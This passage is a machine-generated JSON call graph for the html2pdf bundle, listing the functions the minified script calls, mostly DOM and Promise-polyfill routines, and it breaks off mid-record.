"static/js/html2pdf.bundle.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getElementsByTagName"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "removeChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "cloneNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createTextNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "cloneNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "drawImage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "unitConvert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toPx"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createCommonjsModule"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "contributors"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "factory"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "objectOrFunction"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "isFunction"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "asap"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "customSchedulerFn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "scheduleFlush"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setScheduler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setAsap"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "useNextTick"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "nextTick"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "useVertxTimer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "vertxNext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "useSetTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "useMutationObserver"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createTextNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "observe"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "useMessageChannel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "postMessage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "useSetTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "globalSetTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "flush"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "callback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "attemptVertx"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "require"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "useVertxTimer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "useSetTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "useNextTick"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "useMutationObserver"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "useMessageChannel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "attemptVertx"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "useSetTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "makePromise"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "asap"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "invokeCallback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "subscribe"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "resolve"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "resolve"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "resolve"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "random"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "substring"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "noop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "selfFulfillment"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "cannotReturnOwn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getThen"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "tryThen"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "handleForeignThenable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "asap"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "tryThen"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "resolve"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "fulfill"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "reject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "reject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "handleOwnThenable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "fulfill"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "reject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "subscribe"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "resolve"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "reject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "handleMaybeThenable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "handleOwnThenable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "reject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "fulfill"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "handleForeignThenable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "fulfill"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "resolve"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "reject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "handleMaybeThenable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "fulfill"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "publishRejection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_onerror"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "publish"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "fulfill"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "asap"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "reject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "asap"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "subscribe"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "asap"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "publish"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "invokeCallback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "callback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "tryCatch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "callback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "invokeCallback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "isFunction"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "tryCatch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "reject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "resolve"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "reject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "fulfill"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "reject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "initializePromise"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "resolver"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "resolve"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "rejectPromise"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "reject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "reject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "nextId"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "makePromise"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "validationError"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "makePromise"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "fulfill"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_enumerate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "fulfill"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "reject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_enumerate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_eachEntry"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_eachEntry"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getThen"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_settledAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "handleMaybeThenable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_willSettleAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_willSettleAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_willSettleAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_settledAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "reject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "fulfill"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_willSettleAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "subscribe"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_settledAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_settledAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "resolve"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "resolve"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "resolve"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "all"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "resolve"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "reject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "reject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "all"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "all"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "resolve"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "resolve"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "race"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "resolve"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "reject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "race"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "race"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "timeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "race"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "reject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "resolve"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "reject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "reject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "reject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "needsResolver"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "needsNew"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "value"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "resolve"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "reject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getJSON"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "open"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setRequestHeader"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "send"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "handler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "resolve"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "reject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getJSON"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "all"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getJSON"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "nextId"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "needsResolver"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "initializePromise"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "needsNew"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "findUser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "findUser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "findUser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "findUser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "findUser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "findCommentsByAuthor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "findUser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "findCommentsByAuthor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "findResult"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "findResult"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "findResult"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "findAuthor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "findBooksByAuthor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "foundBooks"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "failure"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "findAuthor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "failure"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "findBoooksByAuthor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "failure"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "foundBooks"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "failure"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "failure"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "findAuthor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "findAuthor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "findAuthor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "findAuthor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_catch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "findAuthor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "findAuthor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "findOtherAuther"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "findAuthor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "findOtherAuther"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "finally"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_finally"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "resolve"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "resolve"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "polyfill"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_extends"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parse"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "convert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setProgress"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "convert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "from"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getType"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": 